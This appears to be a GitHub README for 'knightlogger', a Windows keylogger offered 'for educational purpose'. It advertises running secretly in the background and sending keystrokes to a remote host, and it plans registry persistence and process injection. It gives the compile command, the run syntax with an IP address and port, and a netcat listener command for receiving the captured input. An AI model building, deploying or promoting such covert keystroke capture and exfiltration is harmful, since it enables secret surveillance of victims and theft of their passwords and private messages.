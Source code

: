 # knightlogger
a basic stable keylogger written for eductional purpose works on windows platforms
# options:
- remote access keylogger
- works in background secretly
 -> additional functions will be added soon like registery persistence and inject in system proccesses
# compile
`gcc -o knightlogger.exe knightlogger.cpp -lwsock32`

**easy to use**
`knightlogger.exe ipaddr portnumber`

you can listen for connection by many ways for example netcat way
`nc -lvp 4444`

**notice:** support only english main alphabet ascii characters and some other special keys but not all ,  i will add full support soon 

